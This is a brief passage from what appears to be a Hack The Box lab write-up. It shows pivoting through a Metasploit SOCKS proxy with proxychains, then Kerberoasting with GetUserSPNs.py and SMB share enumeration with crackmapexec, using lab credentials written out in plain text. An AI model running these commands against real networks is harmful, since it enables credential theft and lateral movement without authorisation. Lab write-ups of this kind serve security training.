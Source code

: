 

- then activate socks module in metasploit 

![image-20200912171118598](xen.assets/image-20200912171118598.png)

- now configure proxychains to pass through this and we are good to go

- proxychaining kerberoastable ticket

```
proxychains GetUserSPNs.py 'htb.local/pmorgan:Summer1Summer!' -dc-ip 172.16.249.200 -request
```

![image-20200912171210315](xen.assets/image-20200912171210315.png)



## crackmapexec

```
proxychains crackmapexec smb 172.16.249.201 -u mturner -p '4install!' --shares
```
